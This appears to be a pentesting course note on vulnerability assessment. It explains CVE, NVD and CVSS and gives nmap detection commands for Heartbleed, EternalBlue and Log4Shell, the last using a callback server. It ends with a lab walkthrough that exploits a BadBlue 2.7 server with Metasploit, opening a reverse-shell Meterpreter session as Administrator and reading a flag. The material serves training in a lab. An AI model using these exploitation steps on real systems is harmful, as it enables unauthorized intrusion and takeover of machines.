



# Vulnerability Assessment

> #### ⚡ Prerequisites
>
> * Basic networks concepts and Cybersecurity
>
> #### 📕 Learning Objectives
>
> * Describe and recognize vulnerabilities, exposures reports and national vulnerability database submissions
> * Describe vulnerability management and perform research
> * Perform network auditing
>
> #### 🔬 Training list - PentesterAcademy/INE Labs
>
> `subscription required`
>
> - [Windows: Easy File Sharing Server](https://attackdefense.com/challengedetails?cid=1944)

## Vulnerabilities

🗒️ A **vulnerability** is *a weakness in an information system, system security procedures, internal controls, or implementation that could be exploited or triggered by a threat source.* When exploited, it results in a negative impact to `confidentiality`, `integrity` or `availability`.

- **`Physical layer`** - `e.g.` people, physical controls, vaults, door locks, gates, fences, cameras, badge readers, etc. There can be vulnerabilities in those as well, exploited through social engineering  techniques or hardware exploitation. for physical access.
- Vulnerabilities on a computer comes from the operating system, systems and installed services, found by *DevSec engineers, Security researchers, Pentesters, Software developers, Users.*
- [**NVD** (**N**ational **V**ulnerability **D**atabase)](https://nvd.nist.gov/general) - a United States government repository of standards based vulnerability management data represented using the **SCAP** (**S**ecurity **C**ontent **A**utomation **P**rotocol), maintained by [NIST](https://www.nist.gov/).
- All vulnerabilities in the NVD have been assigned a CVE identifier.

🗒️ The [**`CVE`** (**C**ommon **V**ulnerabilities and **E**xposures)](https://nvd.nist.gov/general/cve-process) program is a public glossary of vulnerabilities identified for specific code bases, software applications or open libraries, maintained by MITRE corporation. A unique **CVE ID** is primarily assigned by MITRE or by **CNAs** (**C**VE **N**umbering **A**uthorities), allowing stakeholders, vendors and researchers to commonly identify unique or new exploits and vulnerabilities.

- [CVE new website](https://www.cve.org/)
- **`E.g.`** - high impact, critical vulnerabilities:
  - [CVE-2014-0160 - Heartbleed](https://nvd.nist.gov/vuln/detail/CVE-2014-0160)
  - [CVE-2017-0143 - EternalBlue](https://nvd.nist.gov/vuln/detail/CVE-2017-0143)
  - [CVE-2021-44228 - Apache Log4j](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

| [CVE Page Components](https://nvd.nist.gov/vuln/vulnerability-detail-pages) |
| :----------------------------------------------------------: |
|                         Description                          |
|                           Severity                           |
|          References (Advisories, Solutions, Tools)           |
|                     Weakness Enumeration                     |
|            Known Affected Software Configurations            |

🗒️ The [**`CVSS`** (**CV**E **S**coring **S**ystem)](https://nvd.nist.gov/vuln-metrics/cvss) is the method used to supply a qualitative measure of severity, consisting of three metric groups: Base, Temporal and Environmental.

- [**Zero-day** exploits](https://www.crowdstrike.com/cybersecurity-101/zero-day-exploit/) are vulnerabilities exploits not yet found, used or reported by anyone, or discovered by attackers before the vendor's security team has become aware of it. `e.g.`:
  - [CVE-2021-301165 - Kaseya VSA exploited by REvil Ransomware](https://jp.tenable.com/blog/cve-2021-30116-multiple-zero-day-vulnerabilities-in-kaseya-vsa-exploited-to-distribute-ransomware?tns_redirect=true)
  - [CVE-2020-1472 - Zerologon](https://www.tenable.com/blog/cve-2020-1472-microsoft-finalizes-patch-for-zerologon-to-enable-enforcement-mode-by-default)

Scope, impact and usefulness will come down to **business needs**, along with the **risk management** and cybersecurity recommendations.

Risk Management includes **vulnerability management**. By doing a **`VA`** (Vulnerability **A**ssessment), the pentester is going to define, identify, classify and prioritize security deficiencies in computer systems, applications, and network infrastructures. Some procedures to find vulnerabilities are:

- Scanning
- Asset Identification and Research
- Fuzz Testing (input/handling validation)

🗒️ [**`Nessus`**](https://www.tenable.com/products/nessus) is a network vulnerability scanning tool. It can be hosted locally and used for Vulnerability Assessment.

## Case Studies

### Heartbleed

- [CVE-2014-0160 - Heartbleed](https://nvd.nist.gov/vuln/detail/CVE-2014-0160)

> *The (1) TLS and (2) DTLS implementations in OpenSSL 1.0.1 before 1.0.1g do not properly handle Heartbeat Extension packets, which allows remote attackers to obtain sensitive information from process memory via crafted packets that trigger a buffer over-read, as demonstrated by reading private keys, related to d1_both.c and t1_lib.c, aka the **Heartbleed** bug.*

- [Heartbleed Vulnerability Explanation - by Rapid7](https://www.rapid7.com/resources/openssl-heartbleed-vulnerability-explained/)

- Show accepted ciphersuites and compressors with [nmap ssl-enum-ciphers](https://nmap.org/nsedoc/scripts/ssl-enum-ciphers.html) script.

```bash
nmap -sV --script ssl-enum-ciphers -p <SECURED_PORT> <TARGET>
```

- Detect OpenSSL Heartbleed bug vulnerable servers with [nmap ssl-heartbleed](https://nmap.org/nsedoc/scripts/ssl-heartbleed.html) script, or with Metasploit enumerate module.

```bash
nmap -sV --script ssl-heartbleed -p 443 <TARGET>
# Other ports can be used too
```

- [exploit-db.com](https://www.exploit-db.com/) is useful too
  - ❗ **always check the exploit behavior before using it**
  - search for `heartbleed`



### EternalBlue

- [CVE-2017-0143 - EternalBlue / MS17-010](https://nvd.nist.gov/vuln/detail/CVE-2017-0143)

> *The SMBv1 server in Microsoft Windows Vista SP2; Windows Server 2008 SP2 and R2 SP1; Windows 7 SP1; Windows 8.1; Windows Server 2012 Gold and R2; Windows RT 8.1; and Windows 10 Gold, 1511, and 1607; and Windows Server 2016 allows remote attackers to execute arbitrary code via crafted packets, aka "**Windows SMB Remote Code Execution Vulnerability.**" This vulnerability is different from those described in CVE-2017-0144, CVE-2017-0145, CVE-2017-0146, and CVE-2017-0148.*
>
> Widely used in the [WannaCry ransomware attack](https://www.mandiant.com/resources/blog/smb-exploited-wannacry-use-of-eternalblue).

- Specific [nmap smb-vuln-ms17-010](https://nmap.org/nsedoc/scripts/smb-vuln-ms17-010.html) script

```bash
nmap --script smb-vuln-ms17-010 -p445 <TARGET>
```



### Log4J

- [CVE-2021-44228 - Apache Log4j](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

> *Apache Log4j2 2.0-beta9 through 2.15.0 (excluding security releases 2.12.2, 2.12.3, and 2.3.1) JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints. An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled. From log4j 2.15.0, this behavior has been disabled by default. From version 2.16.0 (along with 2.12.2, 2.12.3, and 2.3.1), this functionality has been completely removed. Note that this vulnerability is specific to log4j-core and does not affect log4net, log4cxx, or other Apache Logging Services projects.*

- [**`nmap-log4shell`**](https://github.com/giterlizzi/nmap-log4shell) - a NSE script for Apache Log4j RCE vulnerability discovery

```bash
nmap --script log4shell.nse --script-args log4shell.callback-server=<CALLBACK_SERVER_IP>:1389 -p 8080 <TARGET_HOST>
```


------

## Vulnerable Lab

>  🔬 [Windows: Easy File Sharing Server](https://attackdefense.com/challengedetails?cid=1944)
>
>  - Target IP: `10.2.28.13`
>  - Fingerprint the application and exploit the found vulnerability

```bash
ping 10.2.28.13
nmap -sV 10.2.28.13
```

```bash
80/tcp    open  http               BadBlue httpd 2.7
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49165/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```


- Research the vulnerability of `BadBlue httpd 2.7` using various tools:
  - Google it
  - [NVD - CVE-2007-6377](https://nvd.nist.gov/vuln/detail/CVE-2007-6377)
  - [exploit-db.com](https://www.exploit-db.com/)
  - [cvedetails.com - CVE-2007-6377](https://www.cvedetails.com/cve/CVE-2007-6377/)

> *Stack-based buffer overflow in the PassThru functionality in ext.dll in BadBlue 2.72b and earlier allows remote attackers to execute arbitrary code via a long query string.*

- Search for exploits from [exploit-db.com](https://www.exploit-db.com/exploits/16806) or using a command line tool such as **`searchsploit`**



### [searchsploit](https://www.exploit-db.com/searchsploit)

> **`searchsploit`** - *a command line search tool for Exploit-DB*. A copy of Exploit Database can be used offline.


- Use Metasploit to exploit the target using the [PassThru Buffer Overflow module](https://www.rapid7.com/db/modules/exploit/windows/http/badblue_passthru/)

  - *This module exploits a stack buffer overflow in the PassThru functionality in ext.dll in BadBlue 2.72b and earlier.*

> ❗ **Before running an exploit, ALWAYS check its [Source Code](https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/windows/http/badblue_passthru.rb)** to understand what it is doing.❗

```bash
msfconsole
```

```bash
search badblue 2.7
use exploit/windows/http/badblue_passthru
set RHOSTS 10.2.28.13
exploit
```

```bash
[*] Started reverse TCP handler on 10.10.24.3:4444 
[*] Trying target BadBlue EE 2.7 Universal...
[*] Sending stage (180291 bytes) to 10.2.28.13
[*] Meterpreter session 1 opened (10.10.24.3:4444 -> 10.2.28.13:49330) at 2023-02-25 15:32:52 +0530

meterpreter > getuid
Server username: WIN-OMCNBKR66MN\Administrator
```

- Use [meterpreter](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/) commands to find the flag

```
shell
cd /
dir
type flag.txt
```

